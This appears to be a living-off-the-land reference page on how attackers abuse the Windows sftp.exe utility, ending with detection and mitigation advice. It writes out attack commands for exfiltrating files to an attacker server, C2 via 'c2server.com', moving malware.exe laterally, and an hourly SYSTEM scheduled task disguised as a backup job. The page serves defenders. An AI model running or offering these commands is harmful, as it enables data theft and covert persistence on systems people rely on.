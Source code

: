 # sftp.exe  
## What is it?  
*```sftp.exe``` (Secure File Transfer Protocol) is a **built-in Windows command-line utility** used for secure file transfers over SSH.* *It allows users to securely upload, download, and manage files on remote systems using encrypted connections.* *Since it is a **trusted Windows binary**, attackers often abuse it for **data exfiltration, persistence, and stealthy C2 communications**.*  

## Legitimate Usage  
- **Secure File Transfers** → Upload/download files between local and remote systems over SSH.  
- **Remote File Management** → List, move, and delete files on an SSH server.  
- **Automation** → Used in scripts for **secure backup and data synchronization**.  

## How to abuse it  
- **Data Exfiltration** → Stealthily transfer stolen files to an attacker-controlled server.  
- **C2 Communication** → Use encrypted SFTP sessions to avoid detection.  
- **Lateral Movement** → Move malicious payloads between compromised systems.  
- **Persistence** → Automate file transfers for continuous data leaks.  

## Example Attacks  
### 1. Data Exfiltration to a Remote Server  
*Attackers use `sftp.exe` to transfer stolen files without detection.*  

```
sftp user@192.168.1.100
put C:\SensitiveData\report.pdf
exit
```

**Effect:**  
- Sends `report.pdf` to a remote attacker-controlled server.  
- Encrypted SSH connection evades **network monitoring tools**.  

### 2. Automated Data Exfiltration via Script  
*Attackers can automate SFTP commands using a batch script.*  

```
echo put C:\SensitiveData\report.pdf > C:\Windows\Temp\sftp_commands.txt  
sftp -b C:\Windows\Temp\sftp_commands.txt user@192.168.1.100  
```

**Effect:**
- Reads commands from `sftp_commands.txt` and executes them.
- Avoids interactive prompts for **silent exfiltration**.

### 3. Using SFTP for C2 Communication
*Attackers can use SFTP to upload/download commands and tools without triggering alerts.*

```
sftp attacker@c2server.com  
get tasks.txt  
put results.txt  
exit
```

**Effect:**
- Downloads **new attack instructions** from `tasks.txt`.
- Uploads **execution results** to `results.txt`.
- **Evades traditional C2 detection methods**.

### 4. Lateral Movement via SFTP
*Attackers move payloads between compromised machines.*

```
sftp user@192.168.1.50  
put malware.exe  
exit  
```

**Effect:**
- Places `malware.exe` on `192.168.1.50` for execution.
- **Uses encrypted SFTP to evade file transfer monitoring**.

### 5. Persistence via Scheduled SFTP Transfers
Attackers can exfiltrate files at regular intervals.

```
schtasks /create /tn "BackupJob" /tr "sftp -b C:\Windows\Temp\sftp_commands.txt user@192.168.1.100" /sc hourly /ru SYSTEM  
```

**Effect:**
- Runs SFTP **every hour**, ensuring **continuous data theft**.
- **Blends into legitimate scheduled backup jobs**.

# Detection & Mitigation
## Detection Methods
- **Monitor SFTP Connections** → Analyze SSH traffic for unauthorized file transfers.
- **Detect Unusual File Transfers** → Look for high-volume outbound data transfers.
- **Audit Scheduled Tasks** → Identify automated exfiltration attempts.

## Mitigation Strategies
- **Restrict SFTP Access** → Limit use to trusted users and servers.
- **Block Unauthorized SSH Traffic** → Use firewall rules to prevent outbound SSH to unknown servers.
- **Monitor File Access Logs** → Detect suspicious file movements before exfiltration.
